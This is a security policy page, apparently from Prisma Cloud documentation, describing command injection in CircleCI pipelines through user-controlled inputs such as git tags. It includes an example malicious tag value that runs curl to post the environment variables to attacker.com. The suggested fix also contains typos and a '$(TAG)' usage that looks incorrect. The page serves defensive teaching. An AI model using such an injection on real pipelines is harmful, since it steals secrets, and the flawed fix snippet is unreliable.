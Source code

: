 == CirceCI pipeline vulnerable to command injection 

=== Policy Details 

[width=45%]
[cols="1,1"]
|=== 

|Prisma Cloud Policy ID 
|86219273-ec96-4598-8011-fbf6821e022d 

|Severity
|Critical
// add severity level

|Category
|Input Validation
// add category+link

|Subtype
|Build
// add subtype-build/runtime

|Frameworks
|CircleCI

|=== 

=== Description 

Pipelines are vulnerable to command injection attacks, in which arbitrary commands and scripts are passed through user controlled inputs such as pull request title, commit description and so on. These inputs can then be referenced by the pipeline configuration file and executed as part of the pipeline job.

When the pipeline job runs, the poisoned controlled inputs can be interpreted as code and executed on the runner, enabling remote code execution attacks to take place. This will allow the attacker to access stored secrets or to read or modify the source code. 

*EXAMPLE*

The following code snippet is designed to print the associated git tag:

[source,unset]
----
steps: 
 - run: echo << pipline.git.tag >>
----

Attackers can inject their own commands by creating the git tag value:

`curl -X POST -d $(env) https://attacker.com/exfiltrate`

After the pipeline is triggered, this string will be evaluated and executed in the context of the pipeline. As a result, the environment variables will be sent to the attackers’ server.

=== Recommended Solution - Buildtime

Pipelines should never run unsanitized and/or untrusted input. To mitigate command injection attacks, the recommended approach is to assign the value of the expression to an intermediate environment variable. This will cause command injection attacks to fail.

*EXAMPLE*

[source,unset]
----
environment:
 TAG: << pipline.git.tag >>
steps: 
- run: echo $(TAG)
----








